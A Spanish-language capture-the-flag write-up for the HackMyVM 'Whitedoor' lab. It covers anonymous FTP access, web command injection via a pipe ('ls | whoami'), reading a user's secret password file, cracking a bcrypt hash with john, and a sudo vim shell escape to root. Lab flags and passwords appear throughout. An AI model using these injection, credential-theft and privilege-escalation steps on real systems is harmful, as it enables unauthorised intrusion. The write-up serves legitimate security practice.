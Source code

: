 ```yaml
---
icon: flag
---
```


# Whitedoor HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-15 07:48 EDT
Nmap scan report for 192.168.5.39
Host is up (0.00085s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              13 Nov 16  2023 README.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.5.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
|_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Home
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:CE:C3:05 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.93 seconds
```

Veremos que hay varios puertos entre ellos, el puerto `80` y el `FTP` que por lo que vemos se puede conectar de forma anonima, por lo que vamos a probar a leer ese archivo que nos esta detectando a ver que contiene.

```shell
ftp anonymous@<IP>
```

Dejamos la contraseña vacia y veremos que estamos dentro, vamos a descargarnos el archivo `.txt`.

```shell
get README.txt
```

Ahora si lo leemos veremos lo siguiente:

```
¡Good luck!
```

Nada interesante, por lo que vamos a investigar el puerto `80`, que si entramos veremos que esta alojando una pagina web en la que tiene un cuadro de texto para meter palabras o texto, pero si metemos cualquier palabra nos pondra lo siguiente:

```
Permission denied. Only the 'ls' command is allowed.
```

Vamos a probar a meter el `ls` a ver que pasa:

```
blackdoor.webp
blackindex.php
index.php
whitedoor.jpg
```

Veremos que te lista cosas interesantes, pero vamos a probar a ver que esta haciendo la peticion por dentro con `BurpSuite`, abriremos `BurpSuite` capturaremos la peticion del `ls` y vamos a investigar como responde, etc...

## Escalate user whiteshell

Pero no veremos nada interesante, vamos a pronar a intentar concatenar comandos con un `pipeline` (`|`), a ver si nos permite ejecutar comandos que no sean solo el `ls`.

```shell
ls | whoami
```

Info:

```
www-data
```

Vemos que efectivamente esta funcionando, por lo que vamos a investigar realizando este `bypass` de restriccion de comandos.

Indiagando un poco en el sistema, veremos el siguiente archivo ejecutando lo siguiente:

```shell
ls | ls -la /home/whiteshell/Desktop
```

Info:

```
total 12
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17  2023 ..
-r--r--r-- 1 whiteshell whiteshell   56 Nov 16  2023 .my_secret_password.txt
```

Vamos a ver que contiene con este otro comando.

```shell
ls | cat /home/whiteshell/Desktop/.my_secret_password.txt
```

Info:

```
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
```

Vemos lo que parece unas credenciales, pero la contraseña esta codificada en `Base64`, por lo que vamos a intentar decodificarla de esta forma.

```shell
echo "VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K" | echo "VGgxc0lzVGgzUDRzU3dPckRibGFjNQo=" | base64 -d
```

Info:

```
Th1sIsTh3P4sSwOrDblac5
```

### SSH

Veremos que hemos obtenido la contraseña original, por lo que vamos a probarlo mediante el `SSH` de esta forma.

```shell
ssh whiteshell@<IP>
```

Metemos como contraseña `Th1sIsTh3P4sSwOrDblac5` y veremos que estaremos dentro.

## Escalate user Gonzalo

Si nos vamos a la `/home` del usuario `Gonzalo` veremos que en la carpeta `Desktop/` esta el mismo archivo que nosotros teniamos en nuestra carpeta de `whiteshell`, pero si lo leemos veremos lo siguiente:

```shell
cat /home/Gonzalo/.my_secret_hash
```

Info:

```
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
```

Por lo que vemos es el `hash` de la contraseña del usuario `gonzalo` por lo que vamos a intentar crackearla con `john`.

```shell
john --format=crypt --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwertyuiop       (?)     
1g 0:00:00:04 DONE (2025-06-15 08:04) 0.2457g/s 94.34p/s 94.34c/s 94.34C/s adidas..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado y habremos obtenido la contraseña del usuario `gonzalo` vamos a probarla con dicho usuario.

```shell
su Gonzalo
```

Metemos como contraseña `qwertyuiop` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
Y0uG3tTh3Us3RFl4g!!
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Veremos que podemos ejecutar el binario `vim` como el usuario `root`, por lo que podremos hacer lo siguiente:

```shell
sudo vim -c ':!/bin/bash'
```

Info:

```
root@whitedoor:/home/Gonzalo# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
Y0uAr3Th3B3sTy0Ug3Tr0oT!!
```
